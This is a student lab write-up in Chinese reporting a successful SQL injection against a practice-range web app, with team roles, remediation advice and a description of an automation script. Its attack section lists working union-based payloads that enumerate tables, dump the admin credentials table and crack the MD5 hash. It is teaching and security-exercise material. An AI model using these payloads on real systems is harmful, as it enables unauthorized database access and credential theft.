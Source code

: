- [BreakIt Report](#breakit-report)
  - [成员 & 分工](#成员--分工)
  - [破解过程](#破解过程)
    - [sql 注入漏洞介绍](#sql-注入漏洞介绍)
    - [sql 注入漏洞攻击过程](#sql-注入漏洞攻击过程)
    - [sql 注入漏洞的修复方法](#sql-注入漏洞的修复方法)
  - [exp.py 编写](#exppy-编写)
# BreakIt Report
## 成员 & 分工
* 李雅萱
  * 在靶场环境对各类漏洞进行探索。
  * 成功发现、破解 `sql` 漏洞。
  * 对 `sql` 漏洞编写自动化破解脚本，见 [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) [requirements.txt](https://github.com/Taaami/2022-summer-project/blob/main/requirements.txt) 。
  * 录制演示视频，整理上传至某站 [演示视频](https://www.bilibili.com/video/BV16a411f7rV) 。
* 欧阳景宇
  * 在靶场环境对各类漏洞进行探索，主要针对 **CSRF**、 **后台弱口令**、 **目录遍历** 和 **sql注入** 四种类型的漏洞进行漏洞攻击。
  * 检测是否存在漏洞并分析漏洞攻击失败的原因，分析可能采用的漏洞修复方法。
  * 成功发现、破解 `sql` 漏洞，并提出修复思路。
> 与 `sql` 漏洞无关的工作详见个人 `README`
## 破解过程
### sql 注入漏洞介绍
> 攻击者通过控制由 Web 前端传入后端的参数来构造 sql 语句，被程序代入数据库中查询信息，从而实现对数据库的任意操作。
### sql 注入漏洞攻击过程
- 当输入一个 `'` 后页面无回显，说明执行了 `sql` 查询语句。

  ![](./img/test.png)
- 发现通过构造 `url` 可以实现数据库的查询，接下来判断它的字段数。
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了 `5` 以后，页面没有正常显示查询结果，所以有 `4` 个字段。
  
  ![](./img/order5.png)
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  ![](./img/union.png)
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  ![](./img/name.png)
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  ![](./img/adminname.png)
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  ![](./img/pass.png)
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  ![](./img/md5.png)
### sql 注入漏洞的修复方法
> 本次实践后续会修复 `sql` 注入漏洞。以下是个人对 `sql` 注入漏洞修复方法的总结。
1. 对用户输入进行检查，转换或者过滤单引号、双引号、冒号等字符，对于 `select、update` 等字符进行过滤，确保数据库的安全性。
2. 用户输入的参数不直接写入查询语句中，可以采用参数传值的方式传递变量，避免 `sql` 注入。
3. 对用户进行分级管理，严格限制用户权限，对于普通用户值开放数据库查询的权限，禁止建立、修改、删除数据库等权限。
## [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 编写
> [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 思路与手动破解相同，但可适应不同字段数、回显点等情况下的注入。
- 根据单引号判断出存在 `sql注入` 漏洞后，脚本思路如下：
    ```mermaid
    graph TD
    A[开始注入]-->B(判断字段数)
    B-->C(查看回显点)
    C-->D(在回显处爆表名)
    D-->E(在回显处爆列名)
    E-->F(输出admin_id:admin_name:admin_pass)
    F-->G(判断加密算法,解密得到密码)
    ```
- 脚本输出结果
  
  ![result](./img/exp.png)
**脚本有详细注释，此处不再赘述。**